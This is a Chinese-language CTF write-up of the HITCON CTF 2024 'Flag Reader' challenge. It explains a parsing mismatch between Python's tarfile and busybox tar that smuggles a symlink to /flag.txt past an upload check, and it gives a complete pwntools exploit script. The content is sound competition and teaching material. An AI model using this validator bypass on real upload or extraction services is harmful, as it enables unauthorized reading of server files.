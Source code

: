 ```yaml
---
title: "HITCON CTF 2024 Writeup"
date: 2024-07-16T00:00:00+08:00
draft: false
github_link: "https://github.com/Jimmy01240397/CTF-writeup"
author: "Chumy"
tags:
  - CTF
image: /images/CTF.png
description: ""
toc: 
---
```


# hitconctf-2024-writeup

這場與 `星爆吉娃娃`、`BambooFox`、以及我們 `B33f 50UP` 所組成的 `星爆牛炒竹狐` 隊伍一起打到了世界第 24 名、台灣排名第一名，並且打進今年 HITCON CTF 決賽。

這邊就來寫一下我解的題目 writeup。

## 戰績

![image](https://github.com/user-attachments/assets/1f60d911-041b-4419-9eb3-b1cfe0e46feb)

![image](https://github.com/user-attachments/assets/4278d28e-9f26-4ef1-9ebb-443a0a18adce)

![image](https://github.com/user-attachments/assets/fb014145-7e99-4cb2-8f6d-b3e50ee87d4d)

![image](https://github.com/user-attachments/assets/f33a0522-3ffc-4306-a5f3-b9f7a180bb7b)

## Flag Reader

![image](https://github.com/user-attachments/assets/a3a33711-1427-4d0b-ab7b-c1c11c218d55)

目標是上傳一個帶有 flag.txt -> /flag.txt 的 symlink，但是 server 的 python 會用 tarfile 做一次 tarinfo 的檢查，檢查一定要是 file 且名字不能帶 flag.txt，檢查過才會用 subprocess 跑 busybox tar 去解檔。

首先我先去看[tarfile 定義為 isfile 的檔案類型](https://github.com/python/cpython/blob/b455a5a55cb1fd5bb6178a969e8ebd0e6e91b610/Lib/tarfile.py#L122)

```python
REGULAR_TYPES = (REGTYPE, AREGTYPE,
                 CONTTYPE, GNUTYPE_SPARSE)
```

發現 typebyte 要設成 `\0`、`0`、`7`、`S` isfile 結果才會是 true。

最一開始我注意到 `S` 這個東西，發現是 [GNU 特有的 type](https://www.gnu.org/software/tar/manual/html_section/Sparse-Formats.html) 但是不知道為何我用自己 linux 測以後，發現 `tarfile` 會認 Sparse file 但是 `tar` 不知道為何還是按照一般的檔案去解，這邊可能有待研究。

反正我先建了一個 tar 包了兩個檔案，一個是一個動過手腳的空 Sparse file 一個就 flag 的 symlink，這邊的製作方式是。

```bash
touch 1
ln -s /flag.txt flag.txt
tar cvf 1 flag.txt
```

接著用 Hex editer 改，把 header offset 482 的 isextended 設成 true （非 \0）這樣他就會多讀一個 Block 作為 Sparse 的 extend header，那那個 Block 原本是放 flag.txt 的 header 就會被蓋掉，這樣 `tarfile` 就只會認出個檔案而已，但是因為上面講的 tar 沒認 Sparse file 所以她解開就會把兩個檔案都解開，應該就能繞過檢查。

但是發現失敗了，自己架一次以後發現原因出在 [busybox tar 的這個位置](https://github.com/brgl/busybox/blob/abbf17abccbf832365d9acf1c280369ba7d5f8b2/archival/libarchive/get_header_tar.c#L432)可以發現他沒有實作 Sparse file，然後遇到沒有實作的 type 就會直接 Crash。

因此我開始找別的突破點，後來發現。

我們可以去比對 python tarfile 跟 busybox tar 的 source code 裡面讀取數字的地方。
[tarfile](https://github.com/python/cpython/blob/3.12/Lib/tarfile.py#L175)
[busybox tar](https://git.busybox.net/busybox/tree/archival/libarchive/get_header_tar.c?h=1_36_stable#n21)

可以發現兩邊的行為有很多不一致，其中有一個地方是 busybox tar 那邊取數字的取法是把該 field 範圍的字串用 `strtoull` 以 base 8 轉成 `unsigned long long`，而 `strtoull` 會從 low byte 開始讀數字，讀到第一個非數字為止，而接下來會做判斷。

```c
v = strtoull(str, &end, 8);
/* std: "Each numeric field is terminated by one or more
 * <space> or NUL characters". We must support ' '! */
if (*end != '\0' && *end != ' ') {
```

可以看到他會檢查非數字如果是 '\0' 或 ' ' 就不會走進 if，而裡面是處理大數字時改為用 base 256 計算的方式。也就是說如果我們把數字的 field 改成 `0 1111111` 這類的，他會得到 `0`。

接著看一下 `tarfile` 的 `nti`。

```python
def nts(s, encoding, errors):
    """Convert a null-terminated bytes object to a string.
    """
    p = s.find(b"\0")
    if p != -1:
        s = s[:p]
    return s.decode(encoding, errors)

def nti(s):
# .....................
    else:
        try:
            s = nts(s, "ascii", "strict")
            n = int(s.strip() or "0", 8)
        except ValueError:
            raise InvalidHeaderError("invalid header")
# .....................
```

可以看到他會先找到第一個 '\0' 以後將前面的 byte 做 decode 以後用 int 以 base 8 轉成整數，那如果按照上面用 `0 1111111` 會發生甚麼事情。

```
>>> int('0 11111', 8)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
ValueError: invalid literal for int() with base 8: '0 11111'
```

可以發現他會直接 `ValueError` 而 `ValueError` 會 raise `InvalidHeaderError`

接著去看 `TarFile.next` 


```python
tarinfo = None
while True:
    try:
        tarinfo = self.tarinfo.fromtarfile(self)
    except EOFHeaderError as e:
        if self.ignore_zeros:
            self._dbg(2, "0x%X: %s" % (self.offset, e))
            self.offset += BLOCKSIZE
            continue
    except InvalidHeaderError as e:
        if self.ignore_zeros:
            self._dbg(2, "0x%X: %s" % (self.offset, e))
            self.offset += BLOCKSIZE
            continue
        elif self.offset == 0:
            raise ReadError(str(e)) from None
#...............................
    break

if tarinfo is not None:
    self.members.append(tarinfo)
else:
    self._loaded = True

return tarinfo
```

可以發現如果 `InvalidHeaderError` 且 `self.offset != 0` 也就是不是第一個 block 的時候就會停止讀取。所以如果我在第二個檔案的 tar header 裡隨便找個數字並塞個 space 的話，`tarfile` 就會只認出一個檔案，這時如果我把 `flag.txt` 的 symlink 放在第二個檔案以後，`tarfile` 就不會檢查到，同時又可以被 busybox 的 `tar` 解出來。這樣就能繞過檢查了。

exploit:

```python
from pwn import *
import subprocess
from pathlib import Path
from tempfile import TemporaryDirectory
import base64
import sys

BLOCK_SIZE = 512

def calculate_tar_checksum(header):
    if len(header) != BLOCK_SIZE:
        raise ValueError(f"Header must be exactly {BLOCK_SIZE} bytes.")

    checksum = 0

    for i in range(BLOCK_SIZE):
        if 148 <= i < 156:
            checksum += 32
        else:
            checksum += header[i]

    return checksum

with TemporaryDirectory() as tmpdir:
    subprocess.run(
        ["touch", '1'],
        check=True,
        cwd=tmpdir,
    )
    subprocess.run(
        ["touch", '2'],
        check=True,
        cwd=tmpdir,
    )
    subprocess.run(
        ["ln", "-s", "/flag.txt", 'flag.txt'],
        check=True,
        cwd=tmpdir,
    )
    subprocess.run(
        ["tar", "cvf", "payload.tar", '1', '2', 'flag.txt'],
        check=True,
        cwd=tmpdir,
    )
    payload = Path(tmpdir) / "payload.tar"
    with open(payload, "rb") as f:
        payloadbytes = f.read()

payloadbytes = bytearray(payloadbytes)
payloadbytes[1 * BLOCK_SIZE + 0x7D] = ord(' ')
payloadbytes = bytes(payloadbytes)
header_block = payloadbytes[1 * BLOCK_SIZE:2 * BLOCK_SIZE]
checksum = oct(calculate_tar_checksum(header_block))[2:].zfill(6)
payloadbytes = bytearray(payloadbytes)
for i in range(len(checksum)):
    payloadbytes[1 * BLOCK_SIZE + 0x94 + i] = ord(checksum[i])
payloadbytes = bytes(payloadbytes)

payloadbase64 = base64.b64encode(payloadbytes)
conn = remote(sys.argv[1], int(sys.argv[2]))
conn.sendline(payloadbase64)
print(conn.recvuntil(b'\n\n'))
```

![image](https://hackmd.io/_uploads/S1rBTNfu0.png)

`hitcon{is_it_still_possible_if_I_banned_the_presense_of_flag.txt_in_the_binary_data_of_the_tar_file?}`

## 其他隊友的 writeup

[Hackmd](https://hackmd.io/@Vincent550102/rydOoLWOR)


